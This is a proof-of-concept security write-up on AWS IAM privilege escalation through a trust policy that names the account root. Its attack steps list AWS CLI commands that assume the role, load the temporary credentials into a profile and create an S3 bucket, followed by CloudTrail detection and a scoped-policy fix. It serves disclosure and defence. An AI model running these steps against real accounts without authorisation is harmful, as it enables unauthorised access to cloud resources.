



# PoC: Privilege Escalation via Overly Permissive Trust Policy

## Summary
The IAM role `r-autoTask` was created with a trust policy scoping its
`Principal` to the account root (`arn:aws:iam::<ACCOUNT_ID>:root`) rather
than to the specific identity intended to use it. This means any IAM
identity within the account that separately holds `sts:AssumeRole`
permission on this role's ARN can assume it — inheriting its full
permission set, regardless of that identity's own baseline access level.

## Environment
- User: `automator-r`
- Role: `r-autoTask`
- Role's permission policy: broad `s3:*` access (intended for automation tasks)
- Role's trust policy: `Principal: { "AWS": "arn:aws:iam::<ACCOUNT_ID>:root" }`
- `automator-r`'s own policy: scoped `sts:AssumeRole` permission on `r-autoTask`'s ARN only

## Attack steps

**1. Confirm current identity:**
aws sts get-caller-identity --profile automator-r

**2. Assume the role using automator-r's credentials:**
aws sts assume-role --role-arn arn:aws:iam::<ACCOUNT_ID>:role/r-autoTask --role-session-name test-escalation-2 --profile automator-r

**Result:** temporary credentials issued successfully, confirming the
trust policy allowed the assumption despite `automator-r` having no
business need to access broad S3 permissions.



**3. Configure a local profile with the temporary credentials:**
aws configure set aws_access_key_id <TEMP_ACCESS_KEY> --profile escalated-session
aws configure set aws_secret_access_key <TEMP_SECRET_KEY> --profile escalated-session
aws configure set aws_session_token <TEMP_SESSION_TOKEN> --profile escalated-session

**4. Prove write/create-level access — not just passive read:**
aws s3 mb s3://escalated-test-<ACCOUNT_ID> --profile escalated-session --region ap-south-1
aws s3 ls --profile escalated-session

**Result:** bucket created and confirmed present — demonstrating that the
escalated session has real write/create capability, not just theoretical
access.



## Impact
`automator-r`, an identity intended only for scoped automation tasks, was
able to assume a role with broad `s3:*` permissions purely because the
role's trust policy allowed any account principal to assume it. The
escalated session successfully created new infrastructure (an S3 bucket),
demonstrating write-level impact rather than theoretical read-only access.

## Detection
CloudTrail captured the escalation as an `AssumeRole` event, clearly
attributing the action to the real actor:

- **Actor:** `arn:aws:iam::<ACCOUNT_ID>:user/automator-r`
- **Event:** `AssumeRole` on `role/r-autoTask`
- **Session name:** `test-escalation-2`
- **Resulting identity:** `arn:aws:sts::<ACCOUNT_ID>:assumed-role/r-autoTask/test-escalation-2`

Any follow-on action (such as the `CreateBucket` call in the attack steps
above) would be logged under this assumed-role identity rather than
`automator-r` directly — meaning a real investigation would need to trace
back through this `AssumeRole` event, using the shared session name, to
attribute later actions to the true originating user.



## Remediation
Scope the role's trust policy to the specific intended principal instead
of the account root:

**Before (vulnerable):**
```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": { "AWS": "arn:aws:iam::<ACCOUNT_ID>:root" },
      "Action": "sts:AssumeRole"
    }
  ]
}
```

**After (fixed):**
```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": { "AWS": "arn:aws:iam::<ACCOUNT_ID>:user/automator-r" },
      "Action": "sts:AssumeRole"
    }
  ]
}
```

This restricts assumption of `r-autoTask` to only the intended automation
identity. Even if another user in the account is later granted broad
`sts:AssumeRole` permissions, they would no longer be able to assume this
specific role — closing the escalation path at its source rather than
relying on the calling identity's own permissions to prevent misuse.

As defense-in-depth, an `sts:ExternalId` condition or source restriction
(`aws:SourceIp`, `aws:SourceVpce`) could be added if the role ever needs
to be assumable by multiple principals in the future.


